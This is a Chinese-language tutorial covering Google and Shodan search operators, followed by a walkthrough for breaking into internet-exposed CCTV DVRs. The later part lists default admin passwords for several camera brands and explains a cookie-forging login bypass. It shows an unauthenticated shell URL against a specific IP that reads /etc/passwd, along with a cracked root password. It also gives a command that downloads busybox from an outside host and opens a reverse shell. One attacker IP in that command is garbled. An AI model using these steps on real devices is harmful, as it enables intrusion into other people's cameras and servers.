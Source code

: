 # 常见搜索的使用

## Google的使用

Google Hacking是利用谷歌搜索的强大，在浩瀚的互联网中搜索到我们需要的信息。轻量级的搜索可以搜素出一些遗留后门等；中量级的搜索出一些用户信息或源代码泄露等；重量级的则可能是mdb文件下载，网站配置密码，php远程文件包含漏洞等重要信息。**网站地址：[https://www.google.com/ncr](https://www.google.com/ncr)**。国内其竞品为[Baidu](https://www.baidu.com/)。

### 基本搜索

+ 通配符：`*`和`?`
+ 逻辑与：`+`，如`google + android`，搜索包含google且android的页面
+ 逻辑或：`|`，如`google | android`，搜索包含google或android的页面
+ 逻辑非：`-`，如`google -android`，搜索包含google且不包含android的页面

### 高级搜索

+ cache：将返回存储下来的历史页面。例如`cache:www.hackingspirits.com guest`将返回指定网站的缓存，并且正文中含有guest
+ info：返回指定站点的信息。例如`info:www.baidu.com`将返回百度的一些信息
+ site：指定访问的站点。例如`site:baidu.com inurl:Login`将只在baidu.com中查找url中含有Login的网页
+ (all)inurl：将返回url中含有关键词的网页。例如`inurl:Login`将返回url中含有Login的网页
+ (all)intitle：将返回标题中含有关键字的网页。例如`intitle:后台登录`将只返回标题中包含"后台登录"的网页
+ (all)intext：将返回正文中含有关键字的网页。例如`intext:后台登录`将只返回正文中包含"后台登录"的网页
+ filetype：指定访问的文件类型。例如`site:baidu.com filetype:pdf`将只返回baidu.com上文件类型为pdf的网页

而上面这些命令中用的最多的就是inurl，利用这个命令可以查到很多意想不到的东西。如查找SQL注入`inurl:?id=1`。

### 常见搜索

+ 查找网站后台
  + `site:xx.com inurl:login`
  + `site:xx.com intitle:后台`
  + `site:xx.com intext:管理`
+ 查看上传漏洞
  + `site:xx.com inurl:file`
  + `site:xx.com inurl:load`
+ 查看服务器使用的程序
  + `site:xx.com filetype:php`
  + `site:xx.com filetype:jsp`
  + `site:xx.com filetype:asp`
  + `site:xx.com filetype:aspx`



## Shodan的使用

Shodan是一个搜素互联网链接设备的搜索引擎，不同于Google搜素引擎。用户可在Shodan上使用搜索语法查找链接到互联网的摄像头、路由器、服务器等设备信息。它通过扫描全网设备并抓取解析各个设备返回的banner信息，通过了解这些信息Shodan就能得知网络中哪一种Web服务器是最受欢迎的，或是网络中到底存在多少可匿名登录的FTP服务器。**网站地址：[https://www.shodan.io](https://www.shodan.io/)**。国内其竞品为[ZoomEye](https://www.zoomeye.org/)。

### 搜索语法

+ net：搜索指定的IP地址或子网，例如`[<content>] net:"117.44.67.0/24"`
+ hostname：搜索指定的主机或域名，例如`[<content>] hostname:"sina.com"`
+ port：搜索指定的端口，例如`[<content>] port:"80"`
+ country 搜索指定的国家，例如`[<content>] country:"China"`
+ city：搜索指定的城市，例如`[<content>] city:"Beijing"`
+ product：搜索指定的操作系统/软件，例如`[<content>] product:"linux"`
+ version：搜索指定的软件版本，例如`[<content>] version:"7.1.4"`
+ org：搜索指定的组织或公司，例如`[<content>] org:"Google"`
+ before/after：搜索指定收录时间前后的数据(格式为dd-mm-yy)，例如`[<content>] before:"11-11-15"`

**除了通过搜索以外，还可以点击shodan右侧的“explore”，就可以看到别人分享的搜索语法。**比如一个弱密码的漏洞`Server: uc-httpd 1.0.0 200 OK Country:"China"`。

每次查询完后，点击页面上的 “Exploits” 按钮，Shodan就会帮我们查找针对不同平台、不同类型可利用的exploits(漏洞)。当然也可通过直接访问网址来自行搜索：https://exploits.shodan.io/welcome。

**特别的：注意安全，不要乱搞，看看就行，不要改人家配置和密码。(不乱搞，不出事)**

### 密码破解

搜索完成后，我们可以在概要页面的每一个IP旁边点击“斜向上箭头”或者在详情页面每个端口旁“分享箭头”进入服务器，一般用户名为Admin、admin等，密码为空或者111111、888888、123456等。

AndrewTierney在其Blog上公布了一片有关摄像头漏洞利用的文章https://www.pentestpartners.com/blog/pwning-cctv-cameras/，翻译文章为https://blog.51cto.com/simeon/1744228，归纳其核心如下：

+ 存在弱口令漏洞

  简称为“CCTV”(Mvpower 8 Channel Security DVR Full D1 H.264CCTV Real-time Network Digital Video Recorder Mobile Motion Detection,P2P HDMIAlarm Email for CCTV Surveillance Cmeras System)，如在Amazon的购买地址为http://www.amazon.co.uk/dp/B0162AQCO4，其存在弱口令admin，密码为空。收集的其它几款网络摄像机的口令如下：

   （1）海康威视IP网络摄像机：超级用户：admin/12345

   （2）天地伟业网络摄像机：用户名：Admin/111111

   （3）大华网络摄像机：用户名：admin/888888

+ 登录密码绕过漏洞

  可以对之前用默认密码成功登录的页面进行抓包，找到处理页面登录逻辑的js，对处理页面登录的逻辑分析发现，存在登录绕过漏洞，代码如下：

  ```js
  $(document).ready(function(){
      dvr_camcnt= Cookies.get("dvr_camcnt");
      iSetAble= Cookies.get("iSetAble");
      iPlayBack= Cookies.get("iPlayBack");
      dvr_usr= Cookies.get("dvr_usr");
      dvr_pwd= Cookies.get("dvr_pwd");
      if(iSetAble== '0'){
          $('#pb_settings').css('display','none');
      }
      if(iPlayBack== '0'){
          $('#pb_review').css('display','none');
      }
      if(dvr_camcnt== null || dvr_usr == null || dvr_pwd == null){
          location.href= "/index.html";
      }
  }
  ```

  系统管理页面直接通过js检查cookie是否为空来判断用户是否登录。于是通过伪造cookie便可以绕过登录检查。通过代码可以看到需要伪造三个cookie值，dvr_camcnt，dvr_usr=admin，dvr_pwd=123。直接打开http://xx.xx.xx.xx/view2.html时，抓包发现系统会自动设置该cookie参数的值，这个值需要记录下来，否则后面填错的话是看不到监控内容的。dvr_usr和dvr_pwd可以随便设置，只要不为空就好。保存后重新刷新一下http://xx.xx.xx.xx/view2.html，便可以成功登录系统。

+ 直接获取webshell

  直接访问http://223.255.146.74/shell?cat%20/etc/passwd即可获取服务器root帐号密码。获取其root帐号密码为a03e3thxwWU0g，经破解其明文为“juantech”。

+ 获取反弹shell

  执行命令：`cd/root/rec/a1 && wget http://212.111.43.161/busybox && chmod +x busybox && ./busybox  nc 122.115.47.398000 -e /bin/sh -e /bin/sh`，将反弹shell至122.115.47.39的8000端口。还可以执行命令`http://www.antian365.com/shell?/usr/sbin/telnetd-l/bin/sh -p 25`通过telnet目标IP直接进入系统。

实战例子请参考翻译文章。



